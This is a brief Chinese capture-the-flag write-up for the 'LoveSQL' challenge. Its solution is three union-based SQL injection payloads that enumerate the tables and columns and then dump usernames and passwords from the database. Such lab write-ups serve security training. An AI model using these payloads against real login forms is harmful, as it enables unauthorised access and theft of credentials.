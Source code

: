 # [极客大挑战 2019]LoveSQL

## 知识点

`sql注入`

`联合注入`

## 解题

```sql
?username=1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
?username=1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="l0ve1ysq1"%23&password=1
?username=1'union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```